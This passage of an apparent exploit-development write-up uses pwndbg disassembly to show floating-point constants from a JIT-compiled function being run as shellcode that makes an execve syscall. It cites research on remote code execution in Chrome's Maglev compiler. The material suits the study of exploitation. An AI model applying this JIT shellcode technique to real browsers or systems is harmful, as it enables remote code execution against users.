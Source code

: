 ```bash
0x5557606cdb24:	lea    rcx,[rdi+0x30]
```

We can see in later part of assembly that our floating point numbers returned by `func` are being transferred to `xmm0` register. If we do 5557606cdac0 - 5557606cda40 we get 0x80 offset. We do +2 because the opcode is 10 bytes long and we skip the opcode (2-bytes) for `movabs rdi` and go to 8-byte floating point number that when converted to binary and interpreted as code serves as the shellcode.

```bash
pwndbg> x/10i 0x5557606cdb10+0x2
0x5557606cdb12:	mov    rdi,rsp
0x5557606cdb15:	push   0x3b
0x5557606cdb17:	pop    rax
0x5557606cdb18:	syscall
```

As we can see above we are doing `execve syscall` (code 59). 

# References

- [https://web.archive.org/web/20250127220944/https://github.blog/security/vulnerability-research/getting-rce-in-chrome-with-incomplete-object-initialization-in-the-maglev-compiler/](https://web.archive.org/web/20250127220944/https://github.blog/security/vulnerability-research/getting-rce-in-chrome-with-incomplete-object-initialization-in-the-maglev-compiler/)